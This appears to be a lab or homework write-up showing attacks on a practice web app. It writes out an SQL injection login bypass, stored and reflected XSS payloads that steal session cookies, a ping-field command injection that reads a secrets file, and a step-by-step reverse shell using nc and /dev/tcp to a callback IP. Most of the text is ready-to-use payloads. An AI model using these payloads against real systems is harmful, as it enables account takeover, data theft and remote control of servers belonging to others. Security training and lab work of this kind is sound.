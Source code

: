 Part 1: SQL Injection

login as
	user	:	alice@alice.com';--
	password: anything
 
 this will cut the query and execute before it checks for password



 Part 2: Cross-Site Scripting

 **Second order (persistent) attack**
 as each news are a list item, we can use 

    </li> [our actual code] <li>

to inject our code to the news.
In this case we use

<script> document.write("<img src=/news?text="+document.cookie+">") </script>

so that everytime someone sees their news feed, the injected code will print their session into the news feed database.


**first order attack**

instead of an image file that loads automatically, now we have a link that points to the same url

<a href="#" onclick="expose()"> reddit.com/r/funny <script> function expose() { window.location="/news?text="+document.cookie}</script> </a>

putting it in a simple html doesnt work because the cookies are not the same.


**listing secret file**

Using ping input field, we can add an additional shell command by inputting

    localhost && <another command>

in this case, displaying the contents of secret file will need

    localhost && cat secrets

**opening reverse shell**

since we have access to POSIX shell (but not exactly bash), we can setup a reverse shell by doing the following.

1. On our machine, run

    $ nc -l -p 8080 -vvv

2. On "Ping a Host" input field, input

    localhost && echo "exec 5<>/dev/tcp/10.12.72.6/8080; cat <&5 | while read line; do \$line 2>&5 >&5; done" > revshell.sh && chmod +x revshell.sh && bash revshell.sh

  This will create a "revshell.sh" executable file that will redirect its shell to our open port, and then running it on bash. Remember to change "10.12.72.6" in the input to the appropriate ip. The website will hang, and our shell from step 1 will receive a connection. From then, we can access the target's bash by this shell.




